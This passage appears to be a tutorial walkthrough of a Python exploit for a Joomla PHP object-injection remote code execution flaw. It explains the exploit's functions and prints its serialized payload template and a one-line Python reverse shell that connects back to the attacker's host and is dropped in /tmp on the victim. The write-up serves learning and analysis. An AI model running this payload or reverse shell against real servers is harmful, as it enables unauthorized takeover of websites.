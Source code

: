 Here, all User-Agent headers are defined and then again defined the ‘X-forwarded-For’ header instead of the User-Agent. Then the cookie grabbing for the request URL. And finally return with the response. <br>
Next, there is a string (mostly URL) conversion & encoding function for the use in php. This function is called as “php_str_noquotes” and has ‘data’ as its  parameter.<br>
![3](https://user-images.githubusercontent.com/37071700/81484755-d3bdb980-9265-11ea-95b2-cf71c104c5c7.png)<br><br>
Next there is a function to generate the payload called “generate_payload” and take the “php payload” as the parameter. <br>
![4](https://user-images.githubusercontent.com/37071700/81484773-0071d100-9266-11ea-8ffa-84806729d388.png)<br><br>
Here the function will get the php payload as the parameter and then by using “eval” it is going to evaluate the strings it got as PHP code and then format and encode them according to the function “php_str_noquotes”. <br>
When we grab the cookies (with session cookie value), we send a subsequent request with the session cookie set. When the runtime of this payload, firs the X-Forwarded-For header was inserted into the MySQL database and is un-serialized on the subsequent request. To overcome this issue, we need to append four UTF-8 characters to the end of the payload. So, in this exploit they used a variable called `“terminate”` with the value of `‘\xf0\xfd\xfd\xfd’` which will shorten the payload, allowing the code to execute.<br><br>
`terminate = '\xf0\xfd\xfd\xfd';`<br><br>
The usage of this is as bellow, <br><br>
    `exploit_template += r''';s:19:"cache_name_function";s:6:"assert";s:5:"cache";
                  b:1;s:11:"cache_class";O:20:"JDatabaseDriverMysql"
                         :0:{}}i:1;s:4:"init";}}s:13:"\0\0\0connection";b:1;}'''+ terminate ` <br><br>
Here you can see the variable “exploit_template” has the exploit def and finally the four UTF-8 characters. <br><br>
Finally, the main function where all these methods and functions are been executed. <br>
Here the first thing the developers done was, initializing input parameters to handled when we are executing the python script.<br>
![5](https://user-images.githubusercontent.com/37071700/81484849-a291b900-9266-11ea-9eb5-865d91544298.png)<br><br>
This will replace all the required parameters according to the user input. (Ex- RHOST, LPORT, LHOST etc.)<br><br>
Next the code execution happens according to the arguments provided by the exploiter (the user). If the argument is “--cmd” it is going to perform the blind RCE task (Remote Code Execution).<br>
![6](https://user-images.githubusercontent.com/37071700/81484876-d40a8480-9266-11ea-87da-7532eb57cebf.png)<br><br>
If the arguments have “ -l ” and “ -p ” which are LPORT and LHOST, it is going to spawn a reverse shell using netcat listener on the victim.<br> 
In this function the developers used the famous pentestmonkey’s Python reverse shell with one line.<br>
![7](https://user-images.githubusercontent.com/37071700/81484898-fac8bb00-9266-11ea-86e0-7b85a7506207.png)<br><br>
In our exploit, this reverse shell is used in a single line passing our connection as the parameter.<br>
`shell_str = '''import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('''+connection+'''));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'''`<br><br>
Then for be in the safe side, we encode the above python reverse shell as some characters maybe an issue when executing the exploit.<br><br>
`encoded_comm = base64.b64encode(shell_str)`<br><br>
Then the payload execution, here we first create a temporary file in server’s /tmp/ directory as “/tmp/newhnewh.py” and then upload the python reverse shell to it. <br><br>
Then it spawns a shell listener using netcat on LHOST (Our machine) and then executes python reverse shell back to our defined terminal (LHOST:LPORT).<br>
![8](https://user-images.githubusercontent.com/37071700/81484955-6a3eaa80-9267-11ea-8389-6767749152b4.png)<br><br>
# Exploitation.
